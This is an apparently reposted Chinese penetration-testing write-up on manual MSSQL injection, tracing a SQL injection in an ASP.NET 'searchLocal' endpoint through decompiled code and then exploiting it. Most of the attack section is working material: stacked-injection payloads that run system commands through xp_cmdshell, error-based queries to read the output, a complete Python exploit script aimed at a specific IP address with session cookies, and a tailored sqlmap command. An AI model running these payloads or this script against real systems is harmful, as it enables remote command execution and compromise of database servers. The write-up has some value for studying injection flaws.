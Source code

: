 > 原文链接: https://www.anquanke.com//post/id/237031 


# Mssql手工注入执行命令小记


                                阅读量   
                                **144831**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p2.ssl.qhimg.com/t0119eeb8d3c5749b7d.jpg)](https://p2.ssl.qhimg.com/t0119eeb8d3c5749b7d.jpg)



## 前言

本次渗透通过某处SQL注入点进行源码分析，并手工利用xp_cmdshell进行了命令执行。



## 初现

在某个晴朗夏日午后，闲来无事想测试，这不，马上就掏出xray扫描到了一个sql注入漏洞，不得不说xray真的挺好用的。该项目方有提供源代码进行代码扫描，这正合我意，下面就来和我一起来跟踪下这个注入是怎么产生的吧。

[![](https://p4.ssl.qhimg.com/t01562439d06a56b5bf.png)](https://p4.ssl.qhimg.com/t01562439d06a56b5bf.png)



## 回溯

根据上图可以看出在app类searchLocal接口下的lat参数存在报错注入，项目使用asp.net开发，给予的项目核心源码为dll形式打包，下面使用Dnspy进行dll的反编译工作。

> [dnSpy](https://github.com/0xd4d/dnSpy/releases)是一款针对 .NET 程序的逆向工程工具。该项目包含了反编译器，调试器和汇编编辑器等功能组件，而且可以通过自己编写扩展插件的形式轻松实现扩展。该项目使用 dnlib读取和写入程序集，以便处理有混淆代码的程序（比如恶意程序）而不会崩溃。

点击文件-&gt;打开

[![](https://p5.ssl.qhimg.com/t01a70f0222baa32424.png)](https://p5.ssl.qhimg.com/t01a70f0222baa32424.png)

选中位于bin目录下的所有dll点击打开

[![](https://p0.ssl.qhimg.com/t0138c3a6ea1062c3b6.png)](https://p0.ssl.qhimg.com/t0138c3a6ea1062c3b6.png)

这时在程序右侧程序集资源管理器栏出现了反编译的源码，web.dll程序集中包含了Account类和App类的控制器。

[![](https://p3.ssl.qhimg.com/t01a2e87ad239205e7d.png)](https://p3.ssl.qhimg.com/t01a2e87ad239205e7d.png)

在app类控制器中找到了searchLocal方法，该方法直接通过url调用。可以看到在变量fieds中直接使用了`{`0`}``{`1`}`占位符拼接了sql语句，其后使用Request方式接收了lng和lat参数后使用Format格式化字符串将变量拼接到了指定占位符处，最后又进行了一次拼接直接执行sql语句导致了sql注入。

[![](https://p0.ssl.qhimg.com/t010b3d899be6b770cf.png)](https://p0.ssl.qhimg.com/t010b3d899be6b770cf.png)

本来打算使用使用sqlmap来跑的，但是在跑注入的时候发现由于该注入点比较特殊，而sqlmap的payload都有进行闭合注释操作

[![](https://p3.ssl.qhimg.com/t014801b6ea7ef99ac2.png)](https://p3.ssl.qhimg.com/t014801b6ea7ef99ac2.png)

当payload传入后端将会直接拼接带入sql语句，这样sql语句的执行就是完全错误的

[![](https://p2.ssl.qhimg.com/t0136ff137ff386370c.png)](https://p2.ssl.qhimg.com/t0136ff137ff386370c.png)

所以这里我先尝试手工进行sql注入利用xp_cmdshell执行命令。



## 命令执行

根据sql语句进行构造前缀闭合select查询进行堆叠注入

[![](https://p3.ssl.qhimg.com/t01eb76e8a0803087e2.png)](https://p3.ssl.qhimg.com/t01eb76e8a0803087e2.png)

payload前缀为`1))) as km FROM locations；`<br>
使用xp_cmdshell执行命令并查询回显，首先需要创建一个表，将执行的命令结果写入表中，再读取表的字段内容来获得回显。<br>
第一步创建一个表名为A_CMD用于存储执行的命令，payload为`2))) as km FROM locations;create TABLE A_CMD([Data][varchar](1000),ID int NOT NULL IDENTITY (1,1));--`，其中关键的语句为`create TABLE A_CMD([Data][varchar](1000),ID int NOT NULL IDENTITY (1,1))`，这句sql表示创建一个名为A_CMD的表并创建两个字段Data和ID，类型分别为varchar和int，ID非空并且自动增长。

[![](https://p1.ssl.qhimg.com/t0148419f806a134ca2.png)](https://p1.ssl.qhimg.com/t0148419f806a134ca2.png)

payload发送成功，我们来使用xp_cmdshell来执行命令并插入A_CMD表，payload为`2))) as km FROM locations;drop TABLE A_CMD;insert A_CMD exec master.dbo.xp_cmdshell 'whoami' ;--` 使用drop TABLE A_CMD语句在每次命令执行前将表清空来方便查询。

[![](https://p2.ssl.qhimg.com/t013840f855742e79b9.png)](https://p2.ssl.qhimg.com/t013840f855742e79b9.png)

接下来来查询表的行数，可以一行一行读取来获得全部回显。

```
convert(int,(select char(124)%2bcast(Count(1) as varchar(8000))%2bchar(124) From A_CMD))
```

返回的结果为4行

[![](https://p2.ssl.qhimg.com/t019fd711e7d038d90a.png)](https://p2.ssl.qhimg.com/t019fd711e7d038d90a.png)

未避免查询结果为int导致无报错回显，所以需要在查询结合中使用|字符串包含查询结果来进行报错，这里我们使用convert函数进行报错注入，所以无需闭合前面的select，查询执行结果`convert(int,(select Top 1 char(124)%2bdata%2bchar(124) From (select Top 1 [ID],[Data] From A_CMD Order by [ID]) T Order by [ID] desc))`，可以看到命令已经成功执行读取出了数据。

[![](https://p2.ssl.qhimg.com/t01f1d0720c21852f8b.png)](https://p2.ssl.qhimg.com/t01f1d0720c21852f8b.png)



## 编写脚本

下面考虑使用自动化脚本来实现命令执行，主要思路为：<br>
1.创建一个新表A_CMD并执行xp_cmdshell插入执行结果<br>
2.查询表列数，通过正则匹配列数。<br>
3.根据匹配到的列数遍历指定表，最后再使用正则将执行的结果获取出来。

```
import requests
import re

class SQLserverExec():
    def __init__(self):
        #通过该组合SQL语句创建一个新表A_CMD并执行xp_cmdshell插入执行结果
        self.exec_payload='2))) as km FROM locations;drop TABLE A_CMD; create TABLE A_CMD([Data][varchar](1000),ID int NOT NULL IDENTITY (1,1));insert A_CMD exec master.dbo.xp_cmdshell \'`{`0`}`\' ;--'
        #通过该组合SQL语句查询表列数
        self.exec_line_payload="convert(int,(select char(124)+cast(Count(1) as varchar(8000))+char(124) From A_CMD))"
        #通过该组合SQL语句根据列数遍历表查询内容
        self.select_data="convert(int,(select Top 1 char(124)+data+char(124) From (select Top `{`0`}` [ID],[Data] From A_CMD Order by [ID]) T Order by [ID] desc))"
        #设置cookie
        self.cookie=`{`'TY_SESSION_ID':'75c5187d-994f-41f1-b3ed-b77d66e25225','ASP.NET_SessionId':'yhxdx5qdfrrbqu52mbprt1pa'`}`
    def Getlines(self,command): #创建新表插入命令结果返回列数
        res=requests.post("http://39.100.85.166:8003/app/searchLocal/",data=`{`"lng":116.58,'lat':self.exec_payload.format(command)`}`,cookies=self.cookie)
        line_res=requests.post("http://39.100.85.166:8003/app/searchLocal/",data=`{`"lng":116.58,'lat':self.exec_line_payload`}`,cookies=self.cookie)
        line=int(re.search('\|([\s\S]*?)\|',line_res.text).group(1))
        return line
    def ExecCommand(self,command): #跟据列数循环读取内容
        result =''
        for b in range(0,self.Getlines(command)):
            res=requests.post("http://39.100.85.166:8003/app/searchLocal/",data=`{`"lng":116.58,'lat':self.select_data.format(b+1)`}`,cookies=self.cookie)
            data=re.search('&lt;!--[\s\S]*?\|([\s\S]*?)\|',res.text)
            if data is not None:
                result += data.group(1)+'\n' #对获取到的每行内容输出时做格式化换行处理方便阅读
        return result

A=SQLserverExec()
print(A.ExecCommand('ipconfig'))
```

[![](https://p3.ssl.qhimg.com/t01b27a7b86afd39745.png)](https://p3.ssl.qhimg.com/t01b27a7b86afd39745.png)

可以看到命令成功执行



## 使用SQLmap自动化注入

由于注入点的特殊性，所以我们需要构造一个sqlmap的标准注入环境，在闭合select查询后我们可以再构造一个条件，来实现模拟条件注入。最终payload

```
2))) as km FROM locations where id=1
```

使用—prefix参数来添加注入前缀，这样sqlmap的payload就可以以普通的条件查询来进行注入了。

```
sqlmap.py -u "http://xxx.xx/app/searchLocal/" -p "lat" --random-agent --data="lng=116.58&amp;lat=2" --dbms=mssqlserver --cookie="TY_SESSION_ID=75c5187d-994f-41f1-b3ed-b77d66e25225; ASP.NET_SessionId=yhxdx5qdfrrbqu52mbprt1pa" --prefix="2))) as km FROM locations where id=1" --dbs
```

[![](https://p4.ssl.qhimg.com/t016473ce2cb798800d.png)](https://p4.ssl.qhimg.com/t016473ce2cb798800d.png)



## 后记

本次渗透其实经过了很多的试错最后才达到了这个结果，所以说看似简单的渗透过程其中可能包含了各种各样的难点痛点，而这些难点痛点介于篇幅等其他原因不能一一列举出来，重要的不是结果，而是这个试错的过程，只有不断地试错才能不断的成长。
